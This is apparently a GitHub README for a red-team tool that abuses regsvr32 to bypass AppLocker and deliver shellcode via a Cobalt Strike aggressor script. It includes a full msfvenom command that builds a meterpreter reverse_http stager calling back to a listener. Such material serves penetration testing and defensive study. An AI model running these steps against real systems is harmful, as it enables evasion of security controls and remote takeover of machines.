 # regsrv32

regsrv32 applocker bypass - arbitrary shellcode payload delivery via cobalt strike.  

see the companion blog post at http://atropineal.com/2017/05/20/playing-with-the-regsrv32-applocker-bypass/

files:

* regsrv32.cna: a cobalt strike aggressor script.  give it some shellcode and it'll host the file and supply you with a one-liner to execute on-target
* regsrv32.sct: a template that the aggressor script stuffs the shellcode into before hosting it for download via the one-liner

example shellcode to use (point it at metasploit, armitage or cobalt strike listeners):

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_http LHOST=192.168.56.101 LPORT=80 EXITFUNC=thread -f raw > stager.bin

credits:

* yuri popov: for the dynamic wrapper x dll
* casey smith aka subtee: for the jscript that uses dynamic wrapper x dll, and a means to use it without registration

major reference sources:

* http://www.cyberforum.ru/post5932812.html
* https://gist.githubusercontent.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe/raw/dbb7a6c3cb65fc2fcbb4bcfedc8395b258f9658a/calc.sct
* https://gist.github.com/subTee/353ba45c4f16646d10cdfd79cf9d88c9
* https://gist.github.com/iron9light/1191402
* http://sleep.dashnine.org/manual/
* https://www.cobaltstrike.com/aggressor-script/index.html
